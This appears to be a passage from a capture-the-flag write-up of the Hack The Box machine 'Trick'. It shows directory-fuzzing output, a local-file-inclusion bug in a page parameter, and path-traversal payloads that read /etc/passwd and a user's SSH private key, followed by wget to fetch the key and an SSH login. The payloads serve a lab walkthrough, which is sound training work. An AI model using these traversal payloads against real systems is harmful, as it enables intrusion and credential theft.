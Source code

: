 ```bash

 :: Method           : GET
 :: URL              : http://preprod-marketing.trick.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 9660, Words: 3007, Lines: 179, Duration: 108ms]
css                     [Status: 301, Size: 185, Words: 6, Lines: 8, Duration: 58ms]
img                     [Status: 301, Size: 185, Words: 6, Lines: 8, Duration: 63ms]
index.php               [Status: 200, Size: 9660, Words: 3007, Lines: 179, Duration: 82ms]
js                      [Status: 301, Size: 185, Words: 6, Lines: 8, Duration: 80ms]
:: Progress: [4614/4614] :: Job [1/1] :: 600 req/sec :: Duration: [0:00:09] :: Errors: 0 ::
```

## HTTP Part 3 / LFI
Navigating around this new site, there also isn't a whole lot happening. Identified a form file and entered in dummy info and email - nothing new to see. XSS doesn't seem possible as it isn't outputting anything helpful, either.

We do see that the address bar is showing Page= at the end of each navigation - indicating local file inclusion may be possible/is happening:  
![6](Pasted image 20221027174044.png)

After quite a bit of trial and error, I was able to get the site to leak /etc/passwd. [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion) was super helpful here.
```
http://preprod-marketing.trick.htb/index.php?page=....//....//....//etc/passwd
```

The only interesting entry in /etc/passwd was 'Michael'
```
michael:x:1001:1001::/home/michael:/bin/bash
```

Michael does have an ssh folder and id_rsa (private key), so we'll navigate there and confirm it's presence, and then wget it down to our machine:
```
http://preprod-marketing.trick.htb/index.php?page=....//....//....//home/michael/.ssh/id_rsa
```

```bash
wget http://preprod-marketing.trick.htb/index.php?page=....//....//....//home/michael/.ssh/id_rsa -O id_rsa
```

# Exploitation
SSH Key in hand, we can attempt to connect to the server via command line. Now, one thing that threw me off was that it kept asking for a password because permissions were 'too open', so using chmod to bring it down to 600 seemed to do the trick:
```bash
┌──(ghohst㉿kali)-[~/Documents/HTB/Trick]
└─$ chmod 600 id_rsa             

┌──(ghohst㉿kali)-[~/Documents/HTB/Trick]
└─$ ssh michael@trick.htb -i ./id_rsa
Linux trick 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
```
